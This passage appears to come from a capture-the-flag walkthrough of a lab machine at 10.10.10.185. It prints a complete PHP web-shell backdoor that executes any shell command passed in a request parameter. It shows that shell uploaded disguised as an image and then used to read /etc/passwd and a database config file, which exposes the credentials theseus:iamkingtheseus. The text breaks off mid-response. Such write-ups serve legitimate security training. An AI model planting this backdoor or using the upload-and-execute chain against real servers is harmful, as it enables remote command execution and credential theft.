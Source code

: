     <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <?php

    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }

    ?>

    Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

    <!--    http://michaeldaw.org   2006    -->

    -----------------------------1971341748341881315972996739
    Content-Disposition: form-data; name="submit"

    Upload Image
    -----------------------------1971341748341881315972996739--

This "image" will be uploaded and we can then go to
`http://10.10.10.185/images/uploads/simple-backdoor2.php` to execute some
commands on the system.

We start enumerating and found a `db.php5` file containing the database
credentials `theseus:iamkingtheseus`.

    :::text
    GET /images/uploads/simple-backdoor2.php.png?cmd=cat+/var/www/Magic/db.php5 HTTP/1.1
    Host: 10.10.10.185
    Connection: close
    Cookie: PHPSESSID=aakul5ai43vudv9rqhpfoedqcs
    Content-Length: 2


    HTTP/1.1 200 OK
    Date: Wed, 22 Apr 2020 12:32:22 GMT
    Server: Apache/2.4.29 (Ubuntu)
    Vary: Accept-Encoding
    Content-Length: 961
    Connection: close
    Content-Type: text/html; charset=UTF-8

    PNG
    

    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre><?php
    class Database
    {
        private static $dbName = 'Magic' ;
        private static $dbHost = 'localhost' ;
        private static $dbUsername = 'theseus';
        private static $dbUserPassword = 'iamkingtheseus';
